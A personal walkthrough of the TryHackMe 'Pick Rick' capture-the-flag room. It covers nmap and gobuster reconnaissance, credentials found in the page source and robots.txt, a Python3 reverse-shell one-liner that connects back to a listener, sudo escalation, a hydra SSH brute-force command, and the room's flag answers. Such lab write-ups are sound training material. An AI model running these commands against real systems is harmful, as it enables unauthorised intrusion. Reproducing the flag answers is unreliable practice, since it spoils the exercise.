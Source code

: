 #project

https://tryhackme.com/room/picklerick

Declarations:

1. IP: 10.10.128.67
2. Web App: https://10-10-128-67.p.thmlabs.com/

Questions:

1. What is the first ingredient Rick needs?
2. Whats the second ingredient Rick needs?
3. Whats the final ingredient Rick needs?

Method:

1. nmap Scan ``nmap -sC -sV -oN nmap/inital 10.10.252.198``
2. Browse the Webapp -> There is the Username ``R1ckRul3s`` as comment in the Sourceode
3. search directory ``gobuster dir -u https://10-10-252-198.p.thmlabs.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css`` gives us 
	1. /assets
	2. /server-status
	3. /index.html
	4. /portal.php
	5. /robots.txt
4. Browse the findings. In the robots.txt we find ``Wubbalubbadubdub`` and in /portal.php we can login with ``R1ckRul3s`` and this as password
	1. using ``ls`` in the Commands Prompt we find the ``Sup3rS3cretPickl3Ingred.txt`` File. Using ``cat Sup3rS3cretPickl3Ingred.txt`` doesnt work. Using ``less Sup3rS3cretPickl3Ingred.txt`` gives us the first Ingredient: ``mr. meeseek hair``
	2. Using ``grep -R .`` and ``View Sourcecode`` we can see all of the files data
	3. Probing around like ``nc --version`` ``python --version`` ``python3 --version`` we get a hit with python3
	4. So we can create a Reverseshell using Python3. Copying the One Liner from Pentestmonkey and executing it ``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.235.225",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`` we get access per SSH
	5. Browsing around again we find ``sudo su`` working and navigating to ``cd ~`` we find the 3rd Ingredient ``fleeb juice``
	6. The last Ingredient is hidden in ``/home/rick`` and can be accessed with ``cat *``


``hydra -t 4 -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -vV 10.10.252.198 ssh`` 
